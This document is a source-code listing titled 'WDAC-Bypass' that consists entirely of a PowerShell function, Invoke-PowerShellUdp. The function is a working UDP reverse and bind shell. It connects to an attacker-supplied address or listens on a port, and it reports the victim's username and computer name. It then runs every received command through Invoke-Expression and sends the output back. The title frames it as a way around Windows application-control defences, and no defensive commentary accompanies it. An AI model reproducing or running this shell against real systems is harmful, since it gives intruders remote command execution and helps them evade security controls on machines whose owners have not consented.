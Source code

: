 # WDAC-Bypass

function Invoke-PowerShellUdp
{         
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(
 
        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,
 
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,
 
        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,
 
        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind
 
    )
 
    #Connect back if the reverse switch is used.
    if ($Reverse)
    {
        $endpoint = New-Object System.Net.IPEndPoint ([System.Net.IPAddress]::Parse($IPAddress),$Port)
        $client = New-Object System.Net.Sockets.UDPClient
    }
 
    #Bind to the provided port if Bind switch is used.
   if ($Bind)
    {
        $endpoint = New-Object System.Net.IPEndPoint ([System.Net.IPAddress]::ANY,$Port)
        $client = New-Object System.Net.Sockets.UDPClient($Port)
        $client.Receive([ref]$endpoint)
    }
 
    [byte[]]$bytes = 0..255|%{0}
 
    #Send back current username and computername
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $client.Send($sendbytes,$sendbytes.Length,$endpoint)
 
    #Show an interactive PowerShell prompt
    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS (' + [System.Diagnostics.Process]::GetCurrentProcess().Id + ') ' + (Get-Location).Path + '>')
    $client.Send($sendbytes,$sendbytes.Length,$endpoint)
     
    while($true)
    {
        $receivebytes = $client.Receive([ref]$endpoint)
        $returndata = ([text.encoding]::ASCII).GetString($receivebytes)
        $result = (Invoke-Expression -Command $returndata 2>&1 | Out-String )
 
        $sendback = $result +  'PS (' + [System.Diagnostics.Process]::GetCurrentProcess().Id + ') ' + (Get-Location).Path + '> '
        $x = ($error[0] | Out-String)
        $error.clear()
        $sendback2 = $sendback + $x
 
        #Send results back
        $sendbytes = ([text.encoding]::ASCII).GetBytes($sendback2)
        $client.Send($sendbytes,$sendbytes.Length,$endpoint)
    }
    $client.Close()
}
